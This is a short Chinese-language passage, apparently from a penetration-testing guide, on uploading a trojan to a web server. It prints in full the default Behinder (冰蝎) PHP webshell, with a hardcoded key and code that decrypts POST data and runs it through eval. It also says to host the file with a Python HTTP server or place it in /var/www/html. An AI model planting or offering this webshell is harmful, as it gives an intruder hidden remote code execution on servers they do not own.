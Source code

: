 #### 4.3 上传木马



在另一台服务器或者本服务器的/var/www/html目录创建一个shell.php(也可以用Python的httpserver：python –m SimpleHTTPServer 80),内容为冰蝎默认PHP马。

```php
<?php
@error_reporting(0);
session_start();
    $key="e45e329feb5d925b"; //该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond
	$_SESSION['k']=$key;
	session_write_close();
	$post=file_get_contents("php://input");
	if(!extension_loaded('openssl'))
	{
		$t="base64_"."decode";
		$post=$t($post."");
		
		for($i=0;$i<strlen($post);$i++) {
    			 $post[$i] = $post[$i]^$key[$i+1&15]; 
    			}
	}
	else
	{
		$post=openssl_decrypt($post, "AES128", $key);
	}
    $arr=explode('|',$post);
    $func=$arr[0];
    $params=$arr[1];
	class C{public function __invoke($p) {eval($p."");}}
    @call_user_func(new C(),$params);
?>
```

![image-20220406195857082](../../images//image-20220406195857082.png)
